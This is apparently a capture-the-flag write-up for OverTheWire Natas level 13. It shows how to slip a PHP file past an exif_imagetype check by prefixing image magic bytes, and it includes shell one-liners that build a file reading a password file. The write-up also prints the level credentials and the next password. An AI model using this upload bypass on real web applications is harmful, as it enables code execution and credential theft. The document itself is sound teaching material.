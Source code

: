 # Level 13


URL : http://natas13.natas.labs.overthewire.org/

### Creds for this challenge 
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


## Solution
1. requirements

- natas12
- File signatures

This challenge looks exactly the same as the previous one `natas12`, we are dealing with an image uploader service, it provides us with a simple form to upload an image.  

Let's spot the difference between the previous and the current source code, what has changed!

```php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image"; 
}
```

In this challenge we are using [exif_imagetype](http://php.net/manual/en/function.exif-imagetype.php) to check if it is an image or not.But this function does is check the magic number of the file (File Signature), to do that it reads the first bytes of the file to tell if its an image or not.

we can bypass this function by crafting a php file beginning with an image file signature (.jpg for example) then we concatenate a malicious command : **include '/etc/natas_webpass/natas14'** for example.  

`NOTE: if you want to do that using the png file signature. use this : 89 50 4E 47 0D 0A 1A 0A and not 89 50 4E 47`  

## how can we craft the file ? 

1. using JPG magic number

```bash
echo "\xff\xd8\xff\xe8 <? include '/etc/natas_webpass/natas14'; ?>" > exp.php
```

2. using PNG magic number

```bash
echo "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A <? include '/etc/natas_webpass/natas14'; ?>" > exp.php
```

Now upload your file, and get to the location and you will get the password for natas14.

Here is the password for natas14 : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
